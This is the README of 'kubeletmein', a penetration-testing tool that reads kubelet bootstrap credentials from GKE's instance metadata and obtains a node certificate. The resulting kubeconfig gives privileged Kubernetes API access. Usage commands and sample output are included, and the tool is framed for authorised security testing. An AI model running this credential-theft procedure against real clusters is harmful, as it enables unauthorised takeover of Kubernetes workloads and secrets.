 # Kubeletmein

This is a simple penetration testing tool which takes advantage of public cloud provider approaches to providing kubelet credentials to nodes in a Kubernetes cluster in order to gain privileged access to the k8s API. This access can then potentially be used to further compromise the applications running in the cluster or, in many cases, access secrets that facilitate complete control of Kubernetes.

## How it works

`kubeletmein` is a simple Go binary that is designed to be run from a pod inside your target cluster. Typically this will be either via exploiting a weakness in a web application running on Kubernetes or, perhaps an internal penetration test where the client has given you exec access into a pod.

It reads kubelet credentials from the cloud provider metadata and configures a kubeconfig file that you can use with `kubectl` to access the API.

There's more info in our blog post at [https://www.4armed.com/blog/hacking-kubelet-on-gke/](https://www.4armed.com/blog/hacking-kubelet-on-gke/).

## Supported providers

### GKE

Currently only GKE is supported and it relies on the metadata concealmeant being disabled (the default setting).

### EKS

I'm working on support for EKS. It's actually a lot easier to exploit this on EKS than GKE.

### AKS

I should probably look at Azure at some point but....Microsoft. ;-)


## Installation

It's a single binary compiled for Linux. Download it with `cURL` or `wget` from the releases page at [https://github.com/4armed/kubeletmein/releases](https://github.com/4armed/kubeletmein/releases).

## How to

### GKE

On GKE kubeletmein is a two stage process. First we write out a bootstrap-kubeconfig using the certificates and key from the `kube-env` instance attribute. Then we generate a certificate sigining request and use the bootstrap config to submit it to the API for approval.

```
~ $ kubeletmein gke bootstrap
2018-11-29T21:21:26Z [ℹ]  writing ca cert to: ca-certificates.crt
2018-11-29T21:21:26Z [ℹ]  writing kubelet cert to: kubelet.crt
2018-11-29T21:21:26Z [ℹ]  writing kubelet key to: kubelet.key
2018-11-29T21:21:26Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2018-11-29T21:21:26Z [ℹ]  wrote bootstrap-kubeconfig
2018-11-29T21:21:26Z [ℹ]  now generate a new node certificate with: kubeletmein gke generate
```

Then we download the certificate and configure `kubeconfig`.

```
~ $ kubeletmein gke generate -n gke-cluster19-default-pool-6c73beb1-wmh3
2018-11-29T21:23:33Z [ℹ]  using bootstrap-config to request new cert for node: gke-cluster19-default-pool-6c73beb1-wmh3
2018-11-29T21:23:33Z [ℹ]  got new cert and wrote kubeconfig
2018-11-29T21:23:33Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig get pods
```

### EKS

Coming soon.....


## Contributing

Please submit pull requests on a separate branch. We welcome all improvements. It's not the world's best bit of code.

Please raise issues on GitHub if you find any, including feature requests.

## Disclaimer

This is intended for professional security testing or research. We subscribe to the DBAD philosophy.
